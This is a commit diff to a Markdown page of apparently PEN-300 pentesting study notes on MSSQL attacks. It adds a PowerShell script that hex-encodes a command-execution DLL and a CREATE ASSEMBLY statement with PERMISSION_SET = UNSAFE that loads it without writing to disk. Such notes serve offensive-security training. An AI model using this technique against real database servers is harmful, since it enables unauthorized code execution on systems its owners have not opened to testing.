

Before and after one commit to trike33/PEN-300-Code-Snippets, a Markdown page: MSSQL Advanced Attacks.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/MSSQL Advanced Attacks.md
+++ b/MSSQL Advanced Attacks.md
@@ -214,6 +214,22 @@ In order to avoid to put our DLL on disk, we can convert it to hexadecimal and u
 To convert our DLL to an hexadecimal string we will use this powershell script:
 
 ```
+$assemblyFile = "C:\cmdExec.dll"
+$stringBuilder = New-Object -Type System.Text.StringBuilder
+$fileStream = [IO.File]::OpenRead($assemblyFile)
+
+while (($byte = $fileStream.ReadByte()) -gt -1)
+{
+  $stringBuilder.Append($byte.ToString("X2")) | Out-Null
+}
+
+$stringBuilder.ToString() -join "" | Out-File c:\Tools\cmdExec.txt
+```
+
+Now we will create our assembly using the following statement:
+
+```
+CREATE ASSEMBLY my_assembly FROM 0x4D5A900..... WITH PERMISSION_SET = UNSAFE;
 ```
 
 **CODE EXECUTION ON A LINKED MSSQL SERVER:**
````
